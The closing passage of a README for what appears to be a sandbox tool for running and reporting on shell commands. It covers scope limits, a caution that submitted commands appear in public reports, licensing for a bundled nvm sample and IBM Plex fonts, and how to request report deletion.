- Repository-checking mode and PowerShell execution in the sandbox are out of scope for this build.

Your command text is kept in the report and is visible to anyone with the link, so **do not paste real passwords or keys**.

<a id="9-license-and-contact"></a>

## 10. License and contact

MIT, see [LICENSE](LICENSE). The nvm installer used by the `nvm` sample is MIT-licensed by its authors; its notice is in [`fixtures/samples/nvm/LICENSE-nvm.md`](fixtures/samples/nvm/LICENSE-nvm.md). The IBM Plex fonts in `web/fonts/` are under the SIL Open Font License; see [`web/fonts/LICENSE-IBM-Plex.txt`](web/fonts/LICENSE-IBM-Plex.txt).

To have a report deleted, open an issue on this repository with the report's run id. Please do not post the command itself.
